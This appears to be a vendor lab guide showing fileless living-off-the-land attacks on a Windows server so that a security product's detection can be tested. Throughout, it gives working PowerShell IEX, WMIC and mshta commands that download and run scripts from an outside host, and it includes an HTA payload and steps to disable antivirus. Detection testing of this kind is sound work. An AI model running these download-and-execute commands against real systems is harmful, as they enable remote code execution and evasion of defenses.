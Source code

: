 # Introduction to Fileless Attacks in LOL

## Test Environment Setup

1. **Attack Server**
   - [ ] A web server must be set up.

2. **MALSCRIPT**
   - [ ] Must be located in the web root directory of the attack server (`/var/www/html/`).
   - [ ] The infiltrated file can be delivered via a web request body and converted into a web shell.

3. **MALSCRIPT Attack Path**
   - [ ] You must specify the path of the file to be deleted on the victim server.

4. **Victim Server**
   - [ ] PLURA agent must be installed.
   - [ ] The file to be deleted (`C:\Program Files\important-file.txt`) must exist.
   - [ ] If the file does not exist at the specified path, it will be difficult to confirm the success of the attack.

5. **Operating Environment**
   - [ ] The victim server must be a Windows server.
   - [ ] Real-time protection in Windows and antivirus programs like V3 must be disabled.

6. **Command Execution**
   - [ ] Execute the command with administrator privileges using `cmd` or `PowerShell` on the victim server.

---

## What is a LOL Attack and a Fileless Attack?

### LOL (Living Off the Land) Attack
- [ ] A method of attack using legitimate binaries, DLLs, and other tools already installed on the system.

### Fileless Attack
- [ ] An attack method where the malicious file is not stored on the victim server's disk but executed directly in memory.

The following demonstrates how to perform a fileless attack using LOL techniques. After executing this attack, you can check detection details in PLURA.

---

## Attack Demonstration

First, the infiltrated file is delivered through the web request body and converted into a web shell. This technique can be used to perform additional malicious actions through the web server.

👉 [Learn more](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **Fileless attack using PowerShell**
- **Script:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<Path of the file to be deleted on the victim server>'

# Example
Remove-Item 'C:\Program Files\important-file.txt'

### Command  
- Can be used with both `cmd` and `PowerShell`:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```
**If the attack succeeds:** The file on the victim server will be deleted, and the detection logs can be checked in PLURA.

---

## Windows Management Instrumentation (T1047)
- **Execute remote commands using WMIC**
- **Script:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<Path of the file to be deleted on the victim server>'

# Example
Remove-Item 'C:\Program Files\important-file.txt'
```

### Command  
- Execute from `cmd`:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **If the attack is successful:** The file on the victim server will be deleted, and the detection log can be verified in PLURA.

---

## Mshta (T1218.005)
- **Execute a malicious HTA file using Mshta**
- **Script:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### Command
- Can be executed using both `cmd` and `PowerShell`:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **If the attack is successful:** A "Malicious HTA" window and the calculator will run on the victim server, and the detection log can be verified in PLURA.

---

# Precautions
- **PowerShell, WMIC, and Mshta** are powerful script execution tools in Windows and are frequently used to perform fileless attacks.
- Attackers attempt to evade detection by executing directly in memory without saving files to disk.
- Use the above process to verify PLURA's detection capabilities and security logs.

---

## Attack Overview (Diagram)

```mermaid
graph TD
    A[Attack Server] -->|Deliver MALSCRIPT| B[Victim Server]
    B -->|Execute PowerShell| C[Perform File Deletion]
    B -->|Execute WMIC| D[Run Command]
    B -->|Execute Mshta| E[Run HTA File]
    C -->|Verify Result| F[PLURA Detection Log]
    D -->|Verify Result| F[PLURA Detection Log]
    E -->|Verify Result| F[PLURA Detection Log]
```

---

## PLURA-XDR Response Guide

👉 [Learn more](plura_waf_xdr_detection.md)

